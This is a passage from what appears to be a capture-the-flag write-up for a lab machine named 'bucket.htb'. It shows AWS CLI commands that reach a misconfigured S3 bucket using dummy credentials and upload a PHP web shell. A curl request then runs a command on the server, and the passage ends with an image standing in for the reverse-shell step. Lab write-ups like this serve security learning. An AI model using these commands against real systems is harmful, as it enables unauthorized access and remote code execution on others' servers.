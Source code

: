 ```
$ sudo aws s3 --endpoint-url http://s3.bucket.htb ls s3://adserver
Unable to locate credentials. You can configure credentials by running "aws configure".
```

It seems that we need credentials. Based on Hacktricks Cloud, it is possible for unauthenticated access with null credentials.&#x20;

```
$ sudo aws configure                                              
AWS Access Key ID [None]: test123
AWS Secret Access Key [None]: test123
Default region name [None]:        
Default output format [None]:
$ sudo aws s3 --endpoint-url http://s3.bucket.htb ls s3://adserver
                           PRE images/
2023-08-25 21:43:04       5344 index.html
```

Great! We now have access to the files within the S3 Bucket instance. We can try to write files to the instance, and find that it works:

```
$ sudo aws s3 --endpoint-url http://s3.bucket.htb cp test.txt s3://adserver
upload: ./test.txt to s3://adserver/test.txt

$ sudo aws s3 --endpoint-url http://s3.bucket.htb ls s3://adserver         
                           PRE images/
2023-08-25 21:43:04       5344 index.html
2023-08-25 21:44:14         17 test.txt

$ curl http://bucket.htb/test.txt
ihavewriteaccess
```

Using this, we can try to write a shell of some sorts. The first thing that came to mind was PHP, since this wasn't a wasn't an IIS server.&#x20;

```
$ sudo aws s3 --endpoint-url http://s3.bucket.htb cp cmd.php s3://adserver 
upload: ./cmd.php to s3://adserver/cmd.php

$ curl http://bucket.htb/cmd.php?cmd=id                           
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

This worked! Now we can easily gain a reverse shell:

<figure><img src="../../../.gitbook/assets/image (4165).png" alt=""><figcaption></figcaption></figure>
